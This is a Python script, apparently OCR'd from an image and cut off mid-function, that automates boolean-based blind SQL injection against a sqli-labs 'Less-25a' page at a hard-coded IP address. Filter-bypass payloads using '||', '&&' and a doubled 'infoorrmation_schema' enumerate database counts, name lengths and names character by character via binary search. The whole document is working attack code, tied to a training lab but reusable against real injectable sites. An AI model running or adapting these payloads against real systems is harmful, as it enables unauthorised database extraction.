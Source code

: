 ```python
# coding=utf-8
import requests
import urllib

main_url = "http://43.247.91.228:84/Less-25a/?id="

# signal
correct = 'Your Password:Dumb'

# data
db_num = 0
db_name = []
current_db = ''

# query it!
def query_it(s):
    s = urllib.parse.quote_plus(s)
    url = main_url + s
    html = requests.get(url)
    if correct in html.text:
        return True
    return False

# get database num
def get_db_num():
    payload_or = '2333 || (select if((select count(SCHEMA_NAME)' \
        'from infoorrmation_schema.schemata)=%d, 1, 0))'
    payload_and = '1 && (select if((select count(SCHEMA_NAME)' \
        'from infoorrmation_schema.schemata)=%d, 1, 0))'
    for i in range(1, 10):
        s = payload_or % i
        if query_it(s):
            return i
    return -1

# get database name length
def get_db_name_length(db):
    payload = '1 && (select if(length((select SCHEMA_NAME '\
        'from infoorrmation_schema.schemata limit %d, 1))%s%d, 1, 0))'
    # binary search
    left = 0
    right = 50
    while left <= right:
        mid = (left + right) // 2
        s = payload % (db, '=', mid)
        if query_it(s):
            return mid
        else:
            s = payload % (db, '>', mid)
            if query_it(s):
                left = mid + 1
            else:
                right = mid - 1
    return -1


# get database name
def get_db_name():
    payload = '2333 || ascii(substr((select SCHEMA_NAME ' \
        'from infoorrmation_schema.schemata limit %d, 1), %d, 1))%s%d'
    # db_id
    for db_i in range(db_num):
        print('[%d]' % db_i, end='')
```